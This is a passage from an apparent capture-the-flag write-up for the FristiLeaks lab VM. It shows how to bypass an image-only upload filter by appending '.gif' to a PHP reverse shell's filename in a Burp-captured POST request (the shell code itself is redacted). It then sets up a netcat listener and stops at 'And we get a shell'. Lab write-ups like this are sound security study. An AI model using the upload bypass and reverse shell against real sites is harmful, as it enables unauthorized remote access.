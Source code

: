 And trying to upload a random file type gives us this:

```
Sorry, is not a valid file. Only allowed are: png,jpg,gif
Sorry, file not uploaded 
```

Cool, let's try uploading a PHP reverse shell by simply changing the file name using Burp. For our purposes we'll use the PHP web shell located on Kali in `/usr/share/webshells/php`.

```bash
POST /fristi/do_upload.php HTTP/1.1
Host: fristi
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://fristi/fristi/upload.php
Content-Type: multipart/form-data; boundary=---------------------------1741988992628995641674019453
Content-Length: 5862
Connection: close
Cookie: PHPSESSID=ri1lakotitu9ijlqn0ua4gheh5
Upgrade-Insecure-Requests: 1

-----------------------------1741988992628995641674019453
Content-Disposition: form-data; name="fileToUpload"; filename="php-reverse-shell.php.gif"
Content-Type: application/x-php

~~~ REDACTED ~~~

```

As you can see, we simply added `.gif` to the end of the `filename=` parameter. This successfully bypasses the control and uploads our file.

I'll go ahead and setup the listener I specified in the reverse shell (for me this was done via `rlwrap nc -nvlp 6969`) and browse to `/fristi/fristi/uploads/php-reverse-shell.php.gif`.

And we get a shell:
